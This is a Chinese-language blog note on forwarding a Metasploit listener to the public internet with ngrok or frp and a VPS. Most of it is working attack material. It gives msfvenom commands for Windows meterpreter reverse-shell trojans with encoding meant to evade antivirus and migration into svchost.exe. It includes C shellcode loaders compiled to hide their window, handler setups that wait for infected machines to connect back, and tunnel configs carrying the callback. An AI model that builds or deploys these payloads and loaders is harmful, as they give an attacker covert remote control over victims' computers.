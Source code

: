 ```yaml
---

title: MSF映射到公网的常见方法
top: true
cover: true
toc: true
mathjax: true
date: 2020-10-18 21:32:59
password: xxoo
summary:
tags: MSF
categories: MSF
---
```


---

### 0x01、前言

在渗透测试的环节中，MSF可以说是老生常谈的必会工具之一，有的时候内网的MSF并不能满足我们的使用需求，此时我们需要借助一些方法来进行端口转发，这里简单的介绍下如何将内网中的MSF转发到公网。



### 0x02、常见的两种转发方式

#### 方法①：使用Ngrok内网映射

首先我们需要有一个Ngrok官网的账户，官网地址：https://ngrok.com/，注册好后，首先下载一个Ngrok软件，下载地址：https://ngrok.com/download   

下载完成后，将软件复制到kali，解压后执行下图中的命令（ngrok官网会分配你个key）

![ngrok](MSF映射到公网的常见方法/ngrok.png)

![ngrok-kali](MSF映射到公网的常见方法/ngrok-kali.png)

接下来就很简单了，如果想将本地的http服务转发到公网，那么可以执行下列命令，然后会将http服务转发到公网的ngrok域名上

```
./ngrok http 80
```

![ngrok1](MSF映射到公网的常见方法/ngrok1.png)

![www](MSF映射到公网的常见方法/www.png)



ok，试完了http，我们来将tcp转发

```
./ngrok tcp 8888
```

![tcp](MSF映射到公网的常见方法/tcp.png)



 接下来，我们使用msf生成一个木马测试下

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 15 -f exe -o payload.exe
```

这里简单说下木马的参数：

- -p	 选择指定payload

- –e    选择制定编码器（不同编码器免杀效果也有不同，部分编码器应对火绒等杀软效果显著）

-  -i     编码次数

- -b     去处多余/坏字符，lhost是你申请的ngrok服务器地址 lport是自定义的远程端口

- -f 	 生成指定格式

- -a     选择架构平台，包括x86 | x64 | x86_64

- --platform          选择系统类型

  

当然也可以生成c的shellcode

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 15 -f c 
```

![shellcode](MSF映射到公网的常见方法/shellcode.png)



使用VC++6.0对下面的代码进行编译

```
#include <stdio.h>

#pragmacomment( linker, “/subsystem:”windows” /entry:”mainCRTStartup”")//运行时不显示窗口

unsignedchar buf[] =

“buf数组”;//将复制的数组粘贴到此处

main()

{
((void(*)(void))&buf)();

}
```



回归正题，使用msf监听模块监听

```
use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set lhost 127.0.0.1

set lport 8888

exploit
```



meterpreter获取会话

![msf](MSF映射到公网的常见方法/msf.png)





方法②：使用frp+vps内网映射

首先需要去gihub下载frp :https://github.com/fatedier/frp/releases 这里我下载的linux 64的版本（因为服务器是linux），下载后分别放到本地kali和服务器上，解压后，然后分别去配置：



服务端配置frps.ini文件：

```
bind_addr = 0.0.0.0			 //填0.0.0.0即可意为本机ip
bind_port = 6531			//frp连接端口
dashboard_addr = 0.0.0.0     //填0.0.0.0即可意为本机ip
dashboard_port = 7500		//网页访问端口
dashboard_user = admin 		//用户名
dashboard_pwd = crlf 		//密码
token = crlf			   //frp连接口令
```

配置完成后，启动服务端

```
方法一：./frps - c frps.ini		//前台启动，可以看到详细的监听xinxi
方法二：nohup ./frps -c frps.ini > log.txt &		//后台启动
```

![frp](MSF映射到公网的常见方法/frp.png)

启动成功后可以通过网页端访问来查看

![web](MSF映射到公网的常见方法/web.png)



接下来配置客户端kali的frpc.ini

```
[common]
server_addr = 66.23.x.x      //vps的ip
server_port = 6531     		//连接frp的端口
token = crlf      			//连接frp口令
[msf]
type = tcp     			   //tcp协议
local_ip = 127.0.0.1       //填127.0.0.1即可
local_port = 6759         //转发到vps的点端口
remote_port = 6000        //访问端口
```



运行 ./frpc  -c frpc.ini

![frp_c](MSF映射到公网的常见方法/frp_c.png)

ok，接下来使用上面的msfvenom 生成测试木马

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 15 -f exe -o payload.exe
```



也可以使用shellcode

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows LHOST=远程服务端ip 
LPORT=远程服务端端口 -e x86/shikata_ga_nai -i 15 -b 'x00' PrependMigrate=true PrependMigrateProc=svchost.exe -f c > shellcode.c
```

- PrependMigrate=true、PrependMigrateProc=svchost.exe		使木马程序会迁移到svchost.exe进程

- 也可以使用windows/meterpreter/reverse_tcp_rc4这个payload，进行会话加密，增加免杀能力



使用vc++6.0创建32位的项目并编译

```
#include<stdio.h>
#include<windows.h>
#pragma comment(linker,"/subsystem:"windows" /entry:"mainCRTStartup"") //去除窗口
unsigned char shellcode[]=
"这里放生成的shellcode"
void main()
{
 LPVOID Memory = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
 memcpy(Memory, shellcode, sizeof(shellcode));
 ((void(*)())Memory)();
}
```



最后启动msf，等待上线

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 127.0.0.1  
set lport 6759     // 本机转发端口
```

![xx](MSF映射到公网的常见方法/xx.png)



### 0x03、结语：

写的很乱，用做笔记，希望能帮到有缘人吧，然后如有错误，欢迎斧正！

---

